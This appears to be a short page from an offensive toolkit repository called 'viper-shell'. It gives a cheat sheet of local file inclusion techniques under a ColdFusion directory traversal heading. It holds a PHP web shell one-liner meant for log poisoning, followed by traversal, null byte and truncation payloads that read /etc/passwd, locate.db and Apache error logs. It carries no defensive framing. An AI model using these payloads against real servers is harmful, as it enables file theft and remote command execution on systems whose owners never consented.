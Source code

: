 Located in viper-shell


### coldfussiondir_traversal.py

### LFI Manual testing

```
Netcat *target* 80

<?php echo shell_exec(*dollar_sign*_GET['cmd']);?>

Including files in the same directory:

?file=.htaccess

Path Traversal:

?file=../../../../../../../../../var/lib/locate.db

(this file is very interesting because it lets you search the filesystem, other files)

Including injected PHP code:

?file=../../../../../../../../../var/log/apache/error.log

Null Byte Injection:

?file=../../../../../../../../../etc/passwd%00

(requires magic_quotes_gpc=off)

Directory Listing with Null Byte Injection:

?file=../../../../../../../../../var/www/accounts/%00

(UFS filesystem only, requires magic_quotes_gpc=off, more details here)

Path Truncation:

?file=../../../../../../../../../etc/passwd.\.\.\.\.\.\.\.\.\.\.\ …

(more details see here and here)

Dot Truncation:

?file=../../../../../../../../../etc/passwd……………. …

(Windows only, more details here)

Reverse Path Truncation:

?file=../../../../ […] ../../../../../etc/passwd

```
